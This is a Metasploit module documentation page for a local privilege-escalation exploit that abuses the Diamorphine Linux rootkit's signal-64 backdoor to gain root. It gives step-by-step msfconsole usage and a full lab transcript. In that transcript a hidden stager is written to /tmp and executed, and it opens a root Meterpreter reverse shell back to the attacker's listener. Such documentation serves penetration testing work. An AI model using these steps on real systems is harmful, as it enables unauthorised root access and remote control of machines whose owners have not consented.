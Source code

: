 ## Vulnerable Application

  [Diamorphine](https://github.com/m0nad/Diamorphine) is a Linux Kernel Module (LKM) rootkit.

  This module uses Diamorphine rootkit's privesc feature using signal
  64 to elevate the privileges of arbitrary processes to UID 0 (root).

  This module has been tested successfully with Diamorphine from `master`
  branch (2019-10-04) on Linux Mint 19 kernel 4.15.0-20-generic (x64).


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/diamorphine_rootkit_signal_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SIGNAL**

  Diamorphine elevate signal. (default: `64`)


## Scenarios

### Linux Mint 19 (x64)

  ```
  msf5 > use exploit/linux/local/diamorphine_rootkit_signal_priv_esc
  msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > check

  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [+] The target is vulnerable. Diamorphine is installed and configured to handle signal '64'.
  msf5 exploit(linux/local/diamorphine_rootkit_signal_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Executing id ...
  uid=0(root) gid=0(root) groups=0(root),1001(test)
  [*] Writing '/tmp/.hwL5UoDL6mfZ' (207 bytes) ...
  [*] Executing /tmp/.hwL5UoDL6mfZ & echo  ...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (985320 bytes) to 172.16.191.228
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.228:47694) at 2020-02-16 09:28:59 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.228
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter >
  ```

